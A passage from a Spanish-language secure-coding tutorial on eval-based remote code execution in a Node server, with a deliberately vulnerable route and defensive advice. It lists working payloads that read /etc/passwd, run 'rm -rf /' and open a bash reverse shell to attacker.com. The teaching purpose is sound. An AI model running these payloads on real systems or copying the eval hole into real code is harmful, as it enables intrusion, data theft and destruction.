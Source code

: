 **EXTREMADAMENTE PELIGROSO** (pero desafortunadamente común):

```typescript
router.post("/eval-data", async (ctx) => {
  const { code } = ctx.request.body;

  // VULNERABILITY: eval ejecuta código arbitrario
  const result = eval(code);
  ctx.body = { result };
});
```

**Ataque**:

```javascript
// Payload malicioso
const payload = {
  code: "require('child_process').execSync('cat /etc/passwd').toString()",
};

// Enviar al servidor
fetch("/api/vulnerable/deserialization/eval-data", {
  method: "POST",
  body: JSON.stringify(payload),
  headers: { "Content-Type": "application/json" },
});

// ✅ Servidor ejecuta el comando → lee /etc/passwd
```

**Otros payloads RCE**:

```javascript
// Listar archivos
"require('fs').readdirSync('/').join(',')";

// Leer archivos sensibles
"require('fs').readFileSync('/etc/passwd', 'utf8')";

// Ejecutar comando destructivo (NO HACER EN PRODUCCIÓN)
"require('child_process').execSync('rm -rf /')";

// Reverse shell (conectar servidor a atacante)
"require('child_process').exec('bash -i >& /dev/tcp/attacker.com/4444 0>&1')";
```

---

## 🛡️ Cómo Protegerse

### 1. ✅ Nunca Usar `eval`, `Function()`, o `vm.runInContext()`

```typescript
// ❌ NUNCA HACER ESTO
const result = eval(userInput);
const fn = new Function(userInput);
const script = new vm.Script(userInput);

// ✅ USAR ALTERNATIVAS SEGURAS
const result = JSON.parse(userInput); // Solo para JSON válido
```
